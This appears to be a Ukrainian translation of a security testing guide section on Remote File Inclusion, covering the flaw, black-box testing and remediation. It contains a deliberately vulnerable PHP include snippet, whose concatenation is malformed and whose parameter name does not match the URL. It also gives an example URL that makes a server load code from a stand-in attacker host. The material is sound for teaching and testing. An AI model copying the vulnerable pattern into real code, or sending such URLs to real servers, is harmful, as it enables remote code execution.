 ## Тестування віддаленого включення файлів
###  Короткі відомості
Вразливість включення файлів дозволяє зловмиснику включити файл, зазвичай використовуючи механізми динамічного включення файлів, реалізовані в цільовому додатку. Уразливість виникає через використання введених користувачем даних без належної перевірки.

Це може призвести до чогось на зразок виведення вмісту файлу, але в залежності від серйозності це також може призвести до:

- Виконання коду на веб-сервері
- Виконання коду на стороні клієнта, такого як JavaScript, що може призвести до інших атак, таких як міжсайтовий скриптинг (XSS)
- Відмова в обслуговуванні (DoS)
- Розкриття конфіденційної інформації
- Віддалене включення файлів (також відоме як RFI) - це процес включення віддалених файлів за допомогою вразливих процедур включення, реалізованих у додатку. Ця вразливість виникає, наприклад, коли сторінка отримує як вхідні дані шлях до файлу, який має бути включений, і ці вхідні дані не очищаються належним чином, що дозволяє впровадити зовнішню URL-адресу. Хоча більшість прикладів вказують на вразливі PHP-скрипти, слід пам'ятати, що це також поширене в інших технологіях, таких як JSP, ASP та інші.

### Як перевірити
Оскільки RFI виникає, коли шляхи, передані в оператори "include", не очищені належним чином, у підході тестування "чорної скриньки" нам слід шукати сценарії, які приймають імена файлів як параметри. Розглянемо наступний приклад PHP:

````
$incfile = $_REQUEST["файл"];
include($incfile..php");
````
У цьому прикладі шлях витягується з HTTP-запиту, і жодна перевірка введення не виконується (наприклад, шляхом перевірки введення за списком дозволів), тому цей фрагмент коду стає вразливим для цього типу атаки. Розглянемо наступну URL-адресу:

```http://vulnerable_host/vuln_page.php?file=http://attacker_site/malicous_page```

У цьому випадку віддалений файл буде включений, і будь-який код, який міститься в ньому, буде виконуватися сервером.

### Виправлення
Найбільш ефективне рішення для усунення вразливостей, пов'язаних із включенням файлів, полягає в тому, щоб уникати передачі введених користувачем даних будь-якої API файлової системи/фреймворку. Якщо це неможливо, програма може підтримувати список дозволених файлів, які можуть бути включені на сторінку, а потім використовувати ідентифікатор (наприклад, порядковий номер) для доступу до вибраного файлу. Будь-який запит, що містить неприпустимий ідентифікатор, повинен бути відхилений, таким чином зловмисники не можуть маніпулювати шляхом.
